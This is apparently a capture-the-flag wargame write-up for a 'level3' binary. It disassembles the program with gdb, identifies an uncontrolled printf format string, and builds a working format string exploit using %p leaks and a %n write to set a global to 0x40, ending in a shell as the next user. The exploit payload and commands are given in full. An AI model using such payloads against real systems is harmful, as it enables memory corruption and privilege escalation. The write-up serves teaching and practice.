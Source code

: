 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level2](../level2/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[level4 →](../level4/solution.md)
</span>
</span>


level3
======

Dissassembly
------------

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level3
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```

It calls another function v:

```nasm
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

We can see that there is a system call, but to reach it, a specific value needs to be set to0x40.
```nasm
...
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   ...
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

The stack looks like this:
| Address | Type           | Size |
|---------|----------------|------|
| -0x218  | char \*fmt     |   4  |
| -0x210  | FILE \*stdin   |   4  |
| -0x20c  | size_t len     |   4  |
| -0x208  | char data[200] | 512  |
|  0x000  | *EBP           |   4  |
|  0x004  | *EIP           |   4  |

There is a call to printf with a user-controlled stack-buffer as first argument.

In c, the procedure would look like this:
```c
FILE *stdin = *(FILE**)0x8049860;
fgets(fmt, len, stdin);

printf(fmt);

if (*(int*)0x804988c == 0x40)
{
	fwrite(...);
	system(...);
}
```

Exploitation
------------

With the use of some format-specifiers, we can easily print values from the stack, as if they where arguments:
```c
./level3 <<< "%p"
```
```c
0x200
```
Here we can see that we are able to print the length of the buffer, which was the second argument of the previous function: fgets.

Let's see if we can get up to our own buffer.
Remember: Arguments are pushed on the stack in reverse order.
That means [esp] is the first argument passed on the stack:
```nasm
...
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
...
```
Indeed, it contains the address of our buffer at ebp - 0x208, or esp + 0x10.
Since the buffer starts at esp + 0x10, we need to pop 16 bytes off the stack until we reach it.

This can be done using the %p format specifier, which prints 32 bit pointers.
We need to use 4 of them so that we have a 4 * 4 = 16 bytes offset.

```sh
./level3 <<< "AAAA %p %p %p %p"
```
```c
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Alright, so we can control the format string, as well the fourth argument of the printf call. But what can we do with this?

```sh
man 3 printf
```
>BUGS
>>Because  sprintf()  and  vsprintf() assume an arbitrarily long string, callers must becareful not to overflow the actual space; this is often impossible  to  assure.
>>Note that  the length of the strings produced is locale-dependent and difficult to predict.Use snprintf() and vsnprintf() instead (or asprintf(3) and vasprintf(3)).
>
>>Code such as printf(foo); often indicates a bug, since foo may contain a %  character.If  foo  comes from untrusted user input, it may contain %n, causing the printf() callto write to memory and creating a security hole.

In our case, the executable is affected by the second bug. We can write to a location provided by an argument using the %n specifier.

The %n modifiers writes the length of the preceding formatted input. So if we want to write 0x40 to memory location 0x804988c, we need to put the address at the start of our buffer, pop 3 arguments off the stack using the %p specifier, and pad the input to reach 40-bytes before placing the %n specifier.

```sh
ADDRESS="0804988c"
BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
(echo "$BYTES%60x%4\$n"; cat) | ./level3
```
```
                                                         200
Wait what?!
whoami
level4
```
